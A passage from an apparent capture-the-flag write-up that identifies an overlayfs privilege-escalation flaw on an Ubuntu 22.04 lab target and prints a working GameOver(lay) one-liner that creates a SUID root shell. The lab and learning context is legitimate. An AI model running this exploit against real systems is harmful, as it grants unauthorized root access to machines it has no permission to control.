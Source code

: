 {% hint style="info" %}
UBUNTU 22.04.03 LTS (JAMMY)
{% endhint %}

### 3.4 - What component used by the Ubuntu operating system on the target system is vulnerable to a privileges escalation vulnerability assigned two 2023 CVEs?

After finding an old version of the kernel, I'll search on Google to find a public exploit.

{% embed url="https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629" %}

{% hint style="info" %}
overlayfs
{% endhint %}

### Task 4 - Find root flag

### 4.1 - Submit the flag located in the root user's home directory.

As explained into github below, we can do GameOver(lay) Ubuntu Privilege Escalation

{% embed url="https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629?source=post_page-----fd256a170fae--------------------------------" %}

Then, executing bash script, we have become root and can now access the root flag.

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

<figure><img src="../.gitbook/assets/image (315).png" alt=""><figcaption></figcaption></figure>

<details><summary>🚩 Flag 2 (root.txt)</summary></details>
